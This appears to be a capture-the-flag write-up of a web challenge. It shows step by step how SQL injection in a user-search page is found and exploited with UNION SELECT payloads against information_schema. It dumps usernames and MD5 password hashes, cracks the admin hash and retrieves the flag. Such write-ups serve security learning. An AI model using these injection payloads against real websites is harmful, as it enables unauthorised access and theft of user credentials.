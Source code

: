 Challenge description:
==
< oops! I lost the challenge description during editing... >

---
At the website, there is a login page and a search user page.

After trying common sql on the login page with no interesting response, we move on to __search user page__ which had already loaded 2 columns of Username, Nickname for everyone to see.

---
First observation @ http://web.spro.ink:3008/search.php

Results:
|Username|	Nickname|
|---|---|
|admin	|	superuser|
|xinan	|	the guy|
|wenyan	|	the girl|
|potato	|	the food|
|sadhi	|	the friend|
|john	|	the stranger|
	
---
Test for SQL vulnerability
==
We try to see if there are any response when given an invalid data like a single quote. 

Results
>	You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''''' at line 1

When we see the error message, we can conclude that this input form is vulnerable to sql injection.

---
Constructing injection
==
From our very 1st observation, the 2 preloaded columns of Username and Nickname implied that a SELECT statement is inside.

My initial guess:	
```SQL
SELECT Username, Nickname from XXXX where Username='<input name here>'
```

We can make use of the ```UNION``` command to add another ```SELECT``` statements with same number of columns behind the guess.

There is also an interesting table known as ```information_schema``` in MySQL that can help provide us the Table name and its columns!

We proceed to inject the follow:
```sql
' UNION SELECT table_name, column_name FROM information_schema.columns WHERE     '1'='1
```
    
Explanation:
- The first single quote terminate the string to be read by acting as a closing quote. Notice that the very last digit 1
do not have a closing quote? That's because we are making use of the closing quote within the hidden SQL command.

- ```UNION``` is used to exploit the fact we are aware of the hiden ```SELECT``` using 2 columns so we can combine with our own ```SELECT``` statement with 2 other interesting columns.

- where ```'1'='1'``` will always validate true so it will spew out all the table names and column names.

Results:

|Username	    |	Nickname|
|---|---|
|CHARACTER_SETS	|	CHARACTER_SET_NAME|
|CHARACTER_SETS	|	DEFAULT_COLLATE_NAME|
|CHARACTER_SETS	|	DESCRIPTION|
|CHARACTER_SETS	|	MAXLEN|
|COLLATIONS	    |	COLLATION_NAME|
|COLLATIONS	    |	CHARACTER_SET_NAME|
|COLLATIONS	    |	ID|
|COLLATIONS	    |	IS_DEFAULT|
|COLLATIONS	    |	IS_COMPILED|
|COLLATIONS	    |	SORTLEN|
|...|...|
|...|...|
|...|...|
|users|	        	id|
|users|	        	username|
|users|	        	password|
|users|	        	nickname|

---
Fine tuning
==
After knowing the Table name and column names, we can generate another SQL injection to get the credentials of admin
```sql
' UNION SELECT username, password FROM users WHERE '1'='1
``` 
Result:

|Username|	Nickname|
|---|---|
|admin|		79fff4b82b55a67cf96aa059dc1aa956|
|xinan|		7d493220036eb672a9e2d949920be704|
|wenyan|		7d493220036eb672a9e2d949920be704|
|potato|		7d493220036eb672a9e2d949920be704|
|sadhi|		7d493220036eb672a9e2d949920be704|
|john|		7d493220036eb672a9e2d949920be704|

---
Crack hash
==
We can crack the hash password @ https://crackstation.net/

The md5 hash password: ```clearwat```

Go login as admin with the password and we got the flag! :D 

---
flag{sql1_n3v3r_been_s0_eZ}
